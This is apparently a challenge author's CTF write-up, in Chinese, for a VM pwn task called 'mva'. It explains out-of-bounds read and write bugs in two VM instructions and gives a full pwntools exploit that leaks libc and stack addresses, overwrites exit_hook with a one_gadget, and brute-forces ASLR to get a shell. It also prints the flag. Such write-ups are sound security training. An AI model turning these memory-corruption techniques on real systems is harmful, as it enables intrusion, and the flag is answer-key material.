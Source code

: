 # Pwn | mva (10 solves)

## Description

Just a simple program

[Attachments](./to_player/)

## Solution

普通VM Pwn，漏洞点：
- mul指令没有对第二个操作数进行校验存在oob read
- mv指令没有对第二个操作数进行校验存在oob write

一种利用思路
- oob read溢出读libc和栈的地址
- oob write写sp计数器
- 最后 push指令改exit_hook到one_gadget

> 阅读选手赛后提交的WP后意识到大部分选手的思路都比上述要好，这里只贴出菜🐔出题人的exp

由于ASLR存在，VM又是16bit字长的，需要爆破。

sample exp

```python
#!/usr/bin/python3

from pwn import *
context.arch='amd64'

def pack(op:int, p1:int = 0, p2:int = 0, p3:int = 0) -> bytes:
    return  (op&0xff).to_bytes(1,'little') + \
            (p1&0xff).to_bytes(1,'little') + \
            (p2&0xff).to_bytes(1,'little') + \
            (p3&0xff).to_bytes(1,'little')

def ldr(val):
    return pack(0x01, 0, val >> 8, val)

def add(p1, p2, p3):
    return pack(0x02, p1, p2, p3)

def sub(p1, p2, p3):
    return pack(0x03, p1, p2, p3)

def shr(p1, p2):
    return pack(0x06, p1, p2)

def xor(p1, p2, p3):
    return pack(0x07, p1, p2, p3)

def push():
    return pack(0x09)

def pop(p1):
    return pack(0x0a, p1)

def mul(p1, p2, p3):
    return pack(0x0D, p1, p2, p3)

def mv(p1, p2):
    return pack(0x0E, p1, p2)

def sh():
    return pack(0x0F)

puts_offset = 0x845ca
puts_leak = (0x38 + 0x268 - 0x224) >> 1
onegadgetlst = [0xe3b2e, 0xe3b31, 0xe3b34]
onegadget = onegadgetlst[0]
toadd = onegadget - puts_offset
stack_leak = (0x268 - 0x224) >> 1
stack_pointer_leak = (0x238 - 0x224) >> 1

tosub = 0x1a799e + 0x308
# tosub = 0x1a399e + 0x308    # debug aslr
tosub = tosub - 0x3000  # no aslr : player environment
tosub = tosub - 0x4000  # aslr : player environment

# - 0x308 + stack_leak - puts + 0x1a799e
pay  = ldr(0x1)
pay += mv(0,1)
pay += ldr(tosub&0xffff)
pay += mv(0,3)
pay += mul(4,-puts_leak,1)
pay += mul(5,-stack_leak,1)
pay += sub(0,5,4)
pay += sub(0,0,3)
pay += shr(0,1)
pay += push()

pay += ldr((tosub>>16)&0xffff)
pay += mv(0,3)
pay += mul(4,-puts_leak+1,1)
pay += mul(5,-stack_leak+1,1)
pay += sub(0,5,4)
pay += sub(0,0,3)
pay += shr(0,1)
pay += push()

# onegadget
pay += mul(3,-puts_leak,1)
pay += mul(4,-puts_leak+1,1)
pay += ldr(toadd&0xffff)
pay += add(0,3,0)
pay += push()
pay += ldr(((toadd>>16)&0xffff)+1)
pay += add(0,4,0)
pay += push()
pay += mul(0,-puts_leak+2,1)
pay += push()
pay += pop(3)
pay += pop(4)
pay += pop(5)

pay += pop(1)
pay += pop(2)
pay += ldr(0xffff)
pay += xor(2,0,2)
pay += ldr(1)
pay += add(2,0,2)
pay += mv(2,-stack_pointer_leak)
pay += ldr(0xffff)
pay += xor(1,0,1)
pay += mv(1,-stack_pointer_leak+1)
pay += mv(0,-stack_pointer_leak+2)
pay += mv(0,-stack_pointer_leak+3)
pay += mv(5,0)
pay += push()
pay += mv(4,0)
pay += push()
pay += mv(3,0)
pay += push()
pay += ldr(0)
pay += push()




pay += sh()
print(hex(len(pay)))
assert len(pay) <= 0x100
pay = pay.ljust(0x100,b'\0')


# chance of this exp : about 1230 - 10125 times with 1 flag
# I admit this is an awful exp
while True:
    p=remote('127.0.0.1',9999)
    p.sendafter('\n',pay)
    try:
        p.recvuntil('starting ...\n')
        p.recvline()
        p.recvuntil('down ...\n')
        p.sendline('cat flag')
        res = p.recvline()
        print('[+] flag:', res)
        p.interactive()
        break
    except:
        p.close()
        pass
```



## Flag

`HFCTF{M4st3r_0f_vmmv_Mavm44mV4av4m_b03mtxEe4i45fdsdkz9DPWNc02d}`

## Side Note

- VM改编自[Armax/AVM](https://github.com/Armax/AVM)，Great Thanks to original author
- docker调试的时候偏移非常不稳定，docker-compose中加个调试启动参数也会使得libc段和ld段之间的偏移发生改变
- 因为觉得偏移可能是个问题，所以给出dockerfile